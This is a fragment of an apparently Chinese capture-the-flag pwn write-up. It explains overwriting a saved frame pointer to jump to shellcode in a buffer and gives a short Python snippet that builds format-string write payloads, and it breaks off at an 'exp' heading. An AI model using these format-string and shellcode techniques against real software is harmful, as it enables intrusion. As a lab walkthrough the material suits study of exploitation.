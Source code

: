 [![](assets/1701612457-7ba81bab79c12667ccafd0a823b0aaf9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623214751-8bfe5d18-11cc-1.png)  
什么保护都没开，直接把 prev\_ebp 改为 buf 的地址，然后在 buf 内写入 shellcode，就 getshell 了

[![](assets/1701612457-31e805b4463fa5316885a5e0f3d3d75d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623214759-91062a02-11cc-1.png)

```bash
pl = b'%' + str(stack_addr & 0xff).encode() + b'c%6$hhn' 
pl = pl.ljust(200,b'\x00')
s(pl)
p.recv()
#duan()

pl = b'%' + str(0xa064).encode() + b'c%10$hn' 
pl = pl.ljust(200, b'\x00')
s(pl)
p.recv()
```

## exp
